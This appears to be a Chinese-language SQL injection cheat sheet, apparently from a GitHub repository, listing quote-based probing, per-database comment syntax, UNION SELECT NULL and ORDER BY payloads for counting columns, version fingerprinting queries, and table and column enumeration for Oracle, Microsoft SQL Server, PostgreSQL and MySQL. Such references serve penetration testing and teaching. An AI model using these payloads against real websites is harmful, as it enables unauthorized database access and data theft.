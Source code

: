 使用 ' / " 等注入
*若Web报错则说明服务器后端查询语言为 ’ / “ 引号闭合*

*注释后面不执行*
>甲骨文&emsp;&emsp;&emsp;&emsp;\--comment
>微软&emsp;&emsp;&emsp;&emsp;&emsp;--comment
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;/*comment*/
>PostgreSQL&emsp;&emsp;--comment
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;/*comment*/
>MySQL&emsp;&emsp;&emsp;&emsp;\#comment
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;-- comment[注意双破折号后的空格]
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;/*comment*/

### 判断数据表的列数

利用联合查询
> ' UNION SELECT NULL --
> ' ORDER BY 1 --

*若无法查询则说明目标为 Oracel数据库 ' UNION SELECT \* FROM DUAL-- *

### 判断数据库类型

>甲骨文&emsp;&emsp;&emsp;&emsp;SELECT banner FROM v\$version
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;SELECT version FROM v\$instance
>微软&emsp;&emsp;&emsp;&emsp;&emsp;SELECT @@version
>PostgreSQL&emsp;&emsp;SELECT version()
>MySQL&emsp;&emsp;&emsp;&emsp;SELECT @@version

### 判断数据库内容

>甲骨文&emsp;&emsp;&emsp;&emsp;&emsp;SELECT \* FROM all_tables
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;SELECT \* FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
>微软&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;SELECT \* FROM information_schema.tables
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;SELECT \* FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
>PostgreSQL&emsp;&emsp;&emsp;SELECT \* FROM information_schema.tables
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;SELECT \* FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
>MySQL&emsp;&emsp;&emsp;&emsp;&emsp;SELECT \* FROM information_schema.tables
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;SELECT \* FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

**备注**

>--字符串连接--
>Oracle&emsp;&emsp;&emsp;&emsp;'foo'||'bar'
>Microsoft&emsp;&emsp;&emsp;'foo'+'bar'
>PostgreSQL&emsp;&emsp;'foo'||'bar'
>MySQL&emsp;&emsp;&emsp;&emsp;'foo' 'bar' [Note the space between the two strings]
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;CONCAT('foo','bar')
>--从具有指定长度的指定偏移量中提取字符串的一部分--
>甲骨文&emsp;&emsp;&emsp;&emsp;SUBSTR('foobar', 4, 2)
>微软&emsp;&emsp;&emsp;&emsp;&emsp;SUBSTRING('foobar', 4, 2)
>PostgreSQL&emsp;&emsp;SUBSTRING('foobar', 4, 2)
>MySQL&emsp;&emsp;&emsp;&emsp;SUBSTRING('foobar', 4, 2)
